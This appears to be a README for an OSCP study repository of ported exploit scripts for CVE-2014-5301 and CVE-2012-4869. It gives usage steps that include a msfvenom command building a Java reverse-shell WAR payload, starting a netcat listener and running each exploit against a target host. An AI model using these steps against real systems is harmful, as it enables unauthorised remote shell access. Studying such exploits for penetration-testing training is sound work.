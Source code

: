 # OSCP
This is a repository which contains custom/ported POC exploits. They have been made for study and learning purposes.

## 35845.py

CVE: 2014-5301

OSVDB: 116733

URL: [http://seclists.org/fulldisclosure/2015/Jan/5](http://seclists.org/fulldisclosure/2015/Jan/5)

Original metasploit module: https://www.exploit-db.com/exploits/35845

### Usage
```
35845.py file.war host port
```

1. First create reverse shell payload
```
msfvenom -p java/shell_reverse_tcp LHOST=<ip address> LPORT=4444 -f war > shell.war
```

2. Start netcat listener 

3. Run the script
```
35845.py shell.war 192.168.1.1 8080
```
**Note:** The exploit may require multiple run to get it working. Don't give up!



## 18650.py

CVE: 2012-4869

URL: [http://seclists.org/fulldisclosure/2012/Mar/234](http://seclists.org/fulldisclosure/2012/Mar/234)

Original code: https://www.exploit-db.com/exploits/18650

### Usage
Edit the file and change rhost, lhost, lport

1. Start netcat listener on the port you configured

3. Run the script
```
python 18650.py
```


